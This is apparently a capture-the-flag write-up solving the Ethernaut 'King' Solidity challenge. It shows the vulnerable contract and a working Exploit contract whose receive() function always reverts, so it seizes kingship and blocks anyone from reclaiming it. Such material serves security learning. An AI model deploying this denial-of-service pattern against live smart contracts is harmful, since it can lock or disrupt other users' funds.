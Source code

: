 ## King memes

### Contract

<details><summary>CLICK TO VIEW</summary>
<p>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract King {

  address payable king;
  uint public prize;
  address payable public owner;

  constructor() public payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address payable) {
    return king;
  }
}
```

</p>
</details>

### Solution

I'm not going to lie, the prompt of this specific challenge had be riddled up in all directions. I had no idea what I was trying to achieve. Then,
after a dozen of minutes re-reading, it finally came to my mind I had to exploit the contract to render it as useless; In short, I had to make it fail.

My first instinct was to manipulate it here:

```solidity
    require(msg.value >= prize || msg.sender == owner);
```

I quickly came to realize that line was in fact secure and well made. This wasn't what the challenge was trying to make us exploit; After a dozen of
google searches, I came to realize the following line was vulnerable:

```solidity
    king.transfer(msg.value);
```

If we were to somehow make that transfer fail, we'd make the whole contract go beserk. That's some king shit right there. I ended up writing the following
marvelous piece of junk:

```solidity
contract Exploit {
    address public delegate;

    constructor (address delegate_) public payable {
        delegate = delegate_;
    }

    function exploit(uint gazz) public payable {
        payable(delegate).call.value(address(this).balance)("");
    }

    receive() external payable {
        revert("kekw");
    }
}
```

Because solidity was of version 0.6.0, it took me WAY longer than I'd like to admit to figure out how to invoke the receive function all-the-whilst transfering
enough gas for it to handle properly without issue.

And tada. It workie. We just had to place our bets once, override the king, then the contract would be unable to reclaim his throne. Get rekt
